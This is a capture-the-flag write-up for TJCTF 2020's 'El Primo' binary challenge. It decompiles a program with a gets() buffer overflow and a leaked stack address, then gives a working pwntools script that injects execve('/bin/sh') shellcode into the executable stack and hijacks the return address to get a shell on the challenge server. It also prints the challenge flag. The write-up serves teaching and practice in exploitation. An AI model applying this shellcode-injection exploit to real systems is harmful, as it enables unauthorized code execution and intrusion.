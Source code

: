 # El Primo

> My friend just started playing Brawl Stars and he keeps raging because he
> can't beat El Primo! Can you help him?  
>  
> nc p1.tjctf.org 8011

## Description

Let's decompile the binary with Ghidra.

```c  
undefined4 main(void)  
{  
 char local_30 [32];  
 undefined *local_10;  
  
 local_10 = &stack0x00000004;  
 setbuf(stdout,(char *)0x0);  
 setbuf(stdin,(char *)0x0);  
 setbuf(stderr,(char *)0x0);  
 puts("What\'s my hard counter?");  
 printf("hint: %p\n",local_30);  
 gets(local_30);  
 return 0;  
}  
```

We get a possible buffer overflow with the `gets` function, and the `printf`
leaks the address of the buffer. We check the security of the binary, and
surprisingly, NX is disabled.

## Solution

As NX is disabled, we can include a shellcode in the buffer and jump there.
The only thing that I had to do in addition was to preserve the value of `ebp`
on the stack (otherwise I had a segfault when leaving the function), but then
its value is known once we know the address of the buffer.

```python  
from pwn import *

sh = remote('p1.tjctf.org', 8011)

shellcode = asm(shellcraft.i386.linux.execve('/bin/sh'))  
print(len(shellcode))

print(sh.recvuntil("hint: ").decode())  
addr = sh.recvline().decode()  
buf_addr = int(addr, 16)  
print(hex(buf_addr))  
print(addr)

ebp_value = buf_addr + 0x40

payload = shellcode + b"\x00"*(32-len(shellcode)) + p32(ebp_value) + b'a'*24 +
p32(buf_addr)

sh.sendline(payload)  
sh.interactive()  
```

Flag: `tjctf{3L_PR1M0O0OOO!1!!}`  

Original writeup (https://github.com/apoirrier/CTFs-
writeups/blob/master/TJCTF2020/Pwn/ElPrimo.md).